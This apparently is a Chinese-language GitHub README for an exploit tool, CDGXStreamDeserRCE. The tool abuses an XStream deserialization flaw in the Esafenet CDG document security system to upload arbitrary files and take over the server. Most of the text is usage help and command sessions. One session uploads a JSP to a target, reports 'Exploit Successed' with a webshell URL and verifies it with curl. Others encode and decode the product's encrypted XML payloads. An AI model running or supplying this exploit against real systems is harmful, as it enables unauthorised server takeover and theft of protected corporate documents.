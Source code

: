 # CDGXStreamDeserRCE

> 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统存在XStream反序列化远程代码执行漏洞，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。


## 使用

帮助信息

```bash
$ java -jar CDGXStreamDeserRCE.jar   
亿赛通电子文档安全管理系统XStream反序列化漏洞任意文件上传利用

usage: Options
 -d,--decode <arg>         密文解码
 -e,--encode <arg>         加密XML反序列化payload
 -h,--help                 打印帮助信息
 -p,--proxy <arg>          代理地址
 -t,--target <arg>         目标URL
 -uf,--upload-file <arg>    上传文件的本地路径
```

文件上传利用

```bash
$ cat test1.jsp
<%
out.println("e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43");
%>
$ java -jar CDGXStreamDeserRCE.jar -p http://127.0.0.1:8080 -uf test1.jsp -t https://192.168.31.190:8443
[+] Exploit Successed
[+] WebShell: https://192.168.31.190:8443/CDGServer3/test1.jsp
$ curl -k https://192.168.31.190:8443/CDGServer3/test1.jsp
e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43
```

密文解码，读取文件内容进行解码或直接对字符串进行解码。

```bash
$ java -jar CDGXStreamDeserRCE.jar -d e.txt
<?xml version='1.0' encoding="gb2312"?>
<CDGAuthoriseTemplet>
  <authoriseTempletList>
    <AuthoriseTemplet>
      <name>SystemAdmin</name>
      <description>3FF8A0978
....
```

```bash
$ java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
<?xml version='1.0' encoding="gb2312"?>
<SystemReturn>
  <returnMessage>Error1200</returnMessage>
</SystemReturn>
```

明文编码，读取文件内容进行编码或直接对字符串进行编码。

```bash
$ java -jar CDGXStreamDeserRCE.jar -e payload.xml

```
```bash
$ java -jar CDGXStreamDeserRCE.jar -e "C:\Program Files (x86)\ESAFENET\CDocGuard Server\tomcat64\webapps\CDGServer3"
BCBILAKIDOOOCGKJDBBFOCGJFGFJPNJALCHEBLGLBFAMKDDLPBCFFJCJHOPGLEACMIOHIFJAGCBPOMIKLMGBAGCNBGEGNKGALLCGLOJNJBHCLMNNGHHJJNAAKPMEDFJDGCEMDADGDCEFFCGEGNFLGHCH
```

## 参考

- https://github.com/woodpecker-framework/ysoserial-for-woodpecker
